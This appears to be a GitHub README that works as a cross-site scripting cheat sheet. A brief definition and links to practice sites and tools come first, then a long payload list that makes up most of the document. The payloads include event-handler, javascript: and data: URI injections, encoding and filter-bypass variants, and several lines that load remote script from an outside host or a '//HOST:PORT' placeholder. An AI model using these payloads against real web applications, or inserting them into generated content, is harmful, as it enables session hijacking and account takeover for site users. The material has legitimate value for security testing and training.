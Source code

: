 ## What is XSS?
* Cross-site scripting is a type of security vulnerability that can be found in some web applications. 
* XSS attacks enable attackers to inject client-side scripts into web pages viewed by other users.
* A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy.

## Timeline

06.08.2024


## Resources

https://portswigger.net/web-security/cross-site-scripting

Cheat sheet - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

XSS Game to Practice XSS - http://www.xssgame.com/

XSS site to Practice XSS - https://xss-quiz.int21h.jp/

XSS site to Practice XSS - https://xss-game.appspot.com/

## Useful Tools 

DOMinator
XSStrike
DalFox


# Payloads

"-prompt(8)-"
'-prompt(8)-'
";a=prompt,a()//
';a=prompt,a()//
'-eval("window['pro'%2B'mpt'](8)")-'
"-eval("window['pro'%2B'mpt'](8)")-"
"onclick=prompt(8)>"@x.y
"onclick=prompt(8)><svg/onload=prompt(8)>"@x.y
<image/src/onerror=prompt(8)>
<img/src/onerror=prompt(8)>
<image src/onerror=prompt(8)>
<img src/onerror=prompt(8)>
<image src =q onerror=prompt(8)>
<img src =q onerror=prompt(8)>
</scrip</script>t><img src =q onerror=prompt(8)>
<svg onload=alert(1)>
"><svg onload=alert(1)//
"onmouseover=alert(1)//
"autofocus/onfocus=alert(1)//
'-alert(1)-'
'-alert(1)//
\'-alert(1)//
</script><svg onload=alert(1)>
<x contenteditable onblur=alert(1)>lose focus! 
<x onclick=alert(1)>click this! 
<x oncopy=alert(1)>copy this! 
<x oncontextmenu=alert(1)>right click this! 
<x oncut=alert(1)>copy this! 
<x ondblclick=alert(1)>double click this! 
<x ondrag=alert(1)>drag this! 
<x contenteditable onfocus=alert(1)>focus this! 
<x contenteditable oninput=alert(1)>input here! 
<x contenteditable onkeydown=alert(1)>press any key! 
<x contenteditable onkeypress=alert(1)>press any key! 
<x contenteditable onkeyup=alert(1)>press any key! 
<x onmousedown=alert(1)>click this! 
<x onmousemove=alert(1)>hover this! 
<x onmouseout=alert(1)>hover this! 
<x onmouseover=alert(1)>hover this! 
<x onmouseup=alert(1)>click this! 
<x contenteditable onpaste=alert(1)>paste here!
<script>alert(1)// 
<script>alert(1)<!–
<script src=//brutelogic.com.br/1.js> 
<script src=//3334957647/1>
%3Cx onxxx=alert(1) 
<%78 onxxx=1 
<x %6Fnxxx=1 
<x o%6Exxx=1 
<x on%78xx=1 
<x onxxx%3D1
<X onxxx=1 
<x OnXxx=1 
<X OnXxx=1 
<x onxxx=1 onxxx=1
<x/onxxx=1 
<x%09onxxx=1 
<x%0Aonxxx=1 
<x%0Conxxx=1 
<x%0Donxxx=1 
<x%2Fonxxx=1 
<x 1='1'onxxx=1 
<x 1="1"onxxx=1
<x </onxxx=1 
<x 1=">" onxxx=1 
<http://onxxx%3D1/
<x onxxx=alert(1) 1='
<svg onload=setInterval(function(){with(document)body.appendChild(createElement('script')).src='//HOST:PORT'},0)>
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1=' 
*/alert(1)</script><script>/*
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
<script>alert(1)</script> 
<script src=javascript:alert(1)> 
<iframe src=javascript:alert(1)> 
<embed src=javascript:alert(1)> 
<a href=javascript:alert(1)>click 
<math><brute href=javascript:alert(1)>click 
<form action=javascript:alert(1)><input type=submit> 
<isindex action=javascript:alert(1) type=submit value=click> 
<form><button formaction=javascript:alert(1)>click 
<form><input formaction=javascript:alert(1) type=submit value=click> 
<form><input formaction=javascript:alert(1) type=image value=click> 
<form><input formaction=javascript:alert(1) type=image src=SOURCE> 
<isindex formaction=javascript:alert(1) type=submit value=click> 
<object data=javascript:alert(1)> 
<iframe srcdoc=<svg/o&#x6Eload&equals;alert&lpar;1)&gt;> 
<svg><script xlink:href=data:,alert(1) /> 
<math><brute xlink:href=javascript:alert(1)>click 
<svg><a xmlns:xlink=http://www.w3.org/1999/xlink xlink:href=?><circle r=400 /><animate attributeName=xlink:href begin=0 from=javascript:alert(1) to=&>
<html ontouchstart=alert(1)> 
<html ontouchend=alert(1)> 
<html ontouchmove=alert(1)> 
<html ontouchcancel=alert(1)>
<body onorientationchange=alert(1)>
"><img src=1 onerror=alert(1)>.gif
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
<script src="data:&comma;alert(1)//
"><script src=data:&comma;alert(1)//
<script src="//brutelogic.com.br&sol;1.js&num; 
"><script src=//brutelogic.com.br&sol;1.js&num; 
<link rel=import href="data:text/html&comma;&lt;script&gt;alert(1)&lt;&sol;script&gt; 
"><link rel=import href=data:text/html&comma;&lt;script&gt;alert(1)&lt;&sol;script&gt;
<base href=//0>
<script/src="data:&comma;eval(atob(location.hash.slice(1)))//#alert(1)
<body onload=alert(1)>
<body onpageshow=alert(1)>
<body onfocus=alert(1)>
<body onhashchange=alert(1)><a href=#x>click this!#x
<body style=overflow:auto;height:1000px onscroll=alert(1) id=x>#x
<body onscroll=alert(1)><br><br><br><br>
<br><br><br><br><br><br><br><br><br><br>
<br><br><br><br><br><br><br><br><br><br>
<br><br><br><br><br><br><x id=x>#x
<body onresize=alert(1)>press F12!
<body onhelp=alert(1)>press F1! (MSIE)
<marquee onstart=alert(1)>
<marquee loop=1 width=0 onfinish=alert(1)>
<audio src onloadstart=alert(1)>
<video onloadstart=alert(1)><source>
<input autofocus onblur=alert(1)>
<keygen autofocus onfocus=alert(1)>
<form onsubmit=alert(1)><input type=submit>
<select onchange=alert(1)><option>1<option>2
<menu id=x contextmenu=x onshow=alert(1)>right click me!
alert`1`
alert&lpar;1&rpar;
alert&#x28;1&#x29
alert&#40;1&#41
(alert)(1)
a=alert,a(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)
navigator.vibrate(500)
eval(URL.slice(-8))>#alert(1)
eval(location.hash.slice(1)>#alert(1)
innerHTML=location.hash>#<script>alert(1)</script>
<a draggable="true" ondrag="alert(1)">test</a>
<a draggable="true" ondragend="alert(1)">test</a>
<a draggable="true" ondragenter="alert(1)">test</a>
<a draggable="true" ondragleave="alert(1)">test</a>
<a draggable="true" ondragstart="alert(1)">test</a>
<a id=x tabindex=1 onactivate=alert(1)></a>
<a id=x tabindex=1 onbeforeactivate=alert(1)></a>
<a id=x tabindex=1 onbeforedeactivate=alert(1)></a><input autofocus>
<a id=x tabindex=1 ondeactivate=alert(1)></a><input id=y autofocus>
<a id=x tabindex=1 onfocus=alert(1)></a>
<a id=x tabindex=1 onfocusin=alert(1)></a>
<a onbeforecopy="alert(1)" contenteditable>test</a>
<a onbeforecut="alert(1)" contenteditable>test</a>
<a onbeforepaste="alert(1)" contenteditable>test</a>
<a onblur=alert(1) tabindex=1 id=x></a><input autofocus>
<a onclick="alert(1)">test</a>
<a oncontextmenu="alert(1)">test</a>
<a oncopy="alert(1)" contenteditable>test</a>
<a oncut="alert(1)" contenteditable>test</a>
<a ondblclick="alert(1)">test</a>
<a onfocusout=alert(1) tabindex=1 id=x></a><input autofocus>
<a onkeydown="alert(1)" contenteditable>test</a>
<a onkeypress="alert(1)" contenteditable>test</a>
<a onkeyup="alert(1)" contenteditable>test</a>
<a onmousedown="alert(1)">test</a>
<a onmouseenter="alert(1)">test</a>
<a onmouseleave="alert(1)">test</a>
<a onmousemove="alert(1)">test</a>
<a onmouseout="alert(1)">test</a>
<a onmouseover="alert(1)">test</a>
<a onmouseup="alert(1)">test</a>
<a onpaste="alert(1)" contenteditable>test</a>
